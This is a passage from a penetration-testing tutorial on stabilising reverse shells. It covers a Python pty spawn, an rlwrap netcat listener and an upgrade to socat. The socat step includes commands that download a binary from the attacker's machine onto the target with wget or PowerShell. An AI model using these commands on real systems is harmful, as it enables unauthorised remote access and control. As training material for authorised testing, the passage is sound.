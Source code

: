 The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

The first thing to do is use python -c 'import pty;pty.spawn("/bin/bash")', which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
Step two is: export TERM=xterm -- this will give us access to term commands such as clear.
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. 
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
It then foregrounds the shell, thus completing the process.
The full technique can be seen here:


Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 
To fix this, type reset and press enter.

### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with sudo apt install rlwrap.

To use rlwrap, we invoke a slightly different listener:

rlwrap nc -lvnp <port>

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.

### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. 
Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. 
To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. 
A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, 
depending on the version of Powershell installed (Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.
